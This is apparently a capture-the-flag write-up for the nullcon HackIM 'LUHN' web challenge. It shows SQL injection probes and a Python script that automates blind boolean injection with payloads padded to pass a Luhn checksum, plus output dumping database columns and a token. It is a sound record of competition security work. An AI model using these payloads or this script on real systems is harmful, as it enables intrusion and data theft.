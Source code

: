 # nullcon HackIM : LUHN

**Category:** Web
**Points:** 300
**Solves:** 
**Description:**

> A new service allows you to check if you credit card has been compromised. You just need to enter your credit card number and you instantly know if it has been leaked on the Darknet.
> 
> 
> <http://52.91.163.151/>


## Write-up

by [lanjelot](https://github.com/lanjelot)

The website consists of only one form that POSTs the `cc` parameter.

* Submitting the credit card number 4111111111111111 returns "Your CC has been compromised".
* Submitting a number with an invalid Luhn checksum (e.g. 4111411141114111) returns "Invalid CC".
* Submitting a number with a valid Luhn checksum (e.g. 4123123412341236) returns "We do not have your CC in our database".

The `cc` parameter seems to be vulnerable to SQL injection because `cc=4111111111111111' and 0=0-- ` returns "Your CC has been compromised". However sending `' or 1=1-- ` returns "Invalid CC".

Looks like in order to exploit the SQL injection, our payload must have a valid [Luhn](https://en.wikipedia.org/wiki/Luhn_algorithm) checksum (i.e. 00 is valid but 11 isn't ). So I found this neat Python [project] (https://github.com/benhodgson/baluhn) to generate valid checksums.

And I used my SQLi framework [albatar](https://github.com/lanjelot/albatar) to automate exploitation:

```python
#!/usr/bin/env python

from albatar import *
from baluhn import generate
from urllib import quote

PROXIES = {} #'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
  if 'Your CC has been compromised' in body:
    return 1
  else:
    return 0

def add_luhn(s):
  digits = filter(lambda c: c.isdigit(), s)

  # our payload must have an even number of digits otherwise the serve computes
  # a different checksum than us
  if len(digits) % 2 == 0:
    s += '0'
    digits += '0'

  return quote(s + generate(''.join(digits)))

def mysql_boolean():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://52.91.163.151/',
      body = 'cc=4111111111111111${injection}',
      method = 'POST',
      response_processor = test_state_grep,
      encode_payload = add_luhn,
      )

  template = "' and (ascii(substring((${query}),${char_pos},1))&${bit_mask})=${bit_mask} -- "

  return Method_bitwise(make_requester, template)

sqli = MySQL_Blind(mysql_boolean())

for r in sqli.exploit():
  print r
```

Output:
```
$ python luhn.py --columns
21:35:21 albatar - Executing: ('SELECT COUNT(*) FROM information_schema.columns WHERE table_schema NOT IN ("information_schema","mysql","performance_schema")', 'SELECT CONCAT_WS(0x3a,table_schema,table_name,column_name) FROM information_schema.columns WHERE table_schema NOT IN ("information_schema","mysql","performance_schema") LIMIT ${row_pos},1')
21:35:22 albatar - count: 4
cccheck:cc:id
cccheck:cc:cc_number
cccheck:token:id
cccheck:token:value
21:35:44 albatar - Time: 23.11 seconds
$ python luhn.py -D cccheck -T token -C value --dump
21:36:02 albatar - Executing: ('SELECT COUNT(*) FROM cccheck.token', 'SELECT CONCAT_WS(0x3a,value) FROM cccheck.token LIMIT ${row_pos},1')
21:36:04 albatar - count: 1
RIeVoh3eeahthu7Ee
21:36:08 albatar - Time: 6.31 seconds
```

## Other write-ups and resources

* none yet
